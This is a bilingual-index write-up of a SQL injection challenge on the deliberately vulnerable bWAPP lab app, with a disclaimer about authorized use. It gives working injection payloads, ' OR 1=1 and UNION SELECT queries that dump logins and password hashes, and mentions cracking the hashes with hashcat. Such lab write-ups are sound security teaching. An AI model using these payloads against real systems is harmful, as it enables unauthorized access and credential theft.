 # SQL Injection (GET/Search)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](WRITEUP.en.md)
- 🇷🇺 [Русский](WRITEUP.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***SQL Injection vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low

# Target
---

![[images/SqliGetSearchTarget.png]]

# Functionality
---

Passing `test` to determine how the application reacts to entries that don't exist in the database:

![[images/SqliGetSearchTest.png]]

Passing `Iron Man` to see the application's reaction to an entry that is (likely) in the database:

![[images/SqliGetSearchFunction.png]]

### Probable SQL query:

```SQL
SELECT * FROM movies WHERE title="$variable"
```

# Exploitation
---

Passing the `' OR 1=1 -- ` query to test for SQL injection:

![[images/SqliGetSearchSuccess.png]]

The application returns all entries from the database, vulnerability confirmed.

Now passing a `UNION`-based payload to attempt retrieving data from the (likely present) `users` table:

![[images/SqlGetSearchUnion.png]]

This proves that the `users` table exists. The statements return a different number of columns.

Passing the `UNION` payload tampered with `NULL` values to retrieve the `users` table entries, incrementing the number of `NULL` values until the query results in success:

![[images/SqliGetSearchUnionPwd.png]]

Hashed passwords that can later be cracked using tools like `hashcat`.

![[images/SqliGetSearchUnionUsers.png]]

### Final payloads

Retrieving hashed password entries:

```SQL
Iron Man' UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Retrieving login entries:

```SQL
Iron Man' UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users -- 
```